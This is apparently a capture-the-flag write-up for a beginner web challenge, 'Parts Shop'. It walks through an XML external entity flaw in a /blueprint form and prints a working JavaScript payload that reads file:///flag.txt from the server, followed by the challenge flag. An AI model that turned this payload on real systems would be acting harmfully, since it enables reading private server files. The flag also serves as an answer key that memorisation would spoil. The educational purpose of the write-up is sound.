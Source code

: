 # Parts Shop
Level: Beginner

Description:
```
We've found an online shop for robot parts. We suspect ARIA is trying to embody itself to take control of the physical world. You need to stop it ASAP! (Note: The flag is located in /flag.txt)

https://uscybercombine-s4-parts-shop.chals.io/
```

Writeup:
Web Exploitation challenge. At an initial glance, the landing page doesn't reveal much except that it displays the information for each of the parts within the shop and a `/blueprint` page. This newfound page consists of 4 entries from the user to create a new part. The source code reveals a vulnerability in the generateXML function: 
```
<script>
    function generateXML(event) {
      event.preventDefault();

      var name = document.getElementById('name').value;
      var author = document.getElementById('author').value;
      var image = document.getElementById('image').value;
      var description = document.getElementById('description').value;

      var payload = '<?xml version="1.0" encoding="UTF-8"?>\n' +
        '<part>\n' +
        '  <name>' + name + '</name>\n' +
        '  <author>' + author + '</author>\n' +
        '  <image>' + image + '</image>\n' +
        '  <description>' + description + '</description>\n' +
        '</part>';

      fetch("/blueprint", {
        method: "POST",
        body: payload,
      })
      .then(res => {
        if (res.redirected) {
          window.location.href = res.url;
        } else if (res.status == 400) {
          document.getElementById("error").innerHTML = "Please fill out all required fields.";
        }
      })
      .catch(error => console.error(error));
    }
</script>
```

There is no santization or validation in the XML structure which could enable an injection. The server acceptps the XML payload with no evidence of disabling the processing of external entities. We know from the prompt that the flag is hidden in the `/flag.txt` file. We will craft an XML Injection that will perform a forged server-side request to obtain the file with the flag:
```
function generateXXEPayload() {
  var payload = `<?xml version="1.0" encoding="UTF-8"?>\n` +
    `<!DOCTYPE part [\n` +
    `<!ENTITY xxe SYSTEM "file:///flag.txt">\n` + // declare an external entity "xxe" that references the file "flag.txt"
    `]>\n` +
    `<part>\n` +
    `  <name>&xxe;</name>\n` + // reference "xxe" in the name element
    `  <author>author</author>\n` +
    `  <image>https://example.com/image.jpg</image>\n` +
    `  <description>description</description>\n` +
    `</part>`;

  fetch("/blueprint", {
    method: "POST",
    body: payload,
    headers: {
      "Content-Type": "application/xml"
    }
  })
  .then(res => res.text()) // extract the response body as text
  .then(data => {
    console.log(data);  // log the response for analysis
    document.write("<pre>" + data + "</pre>");  // display the response for easier inspection
  })
  .catch(error => console.error(error));
}

// Execute the function to submit the payload
generateXXEPayload();
```

Run the generateXXEPayload function in the console and it will output a new part in the parts shop landing page. The part will contain the flag.

**Flag** - `SIVBGR{fu11y_upgr4d3d}`
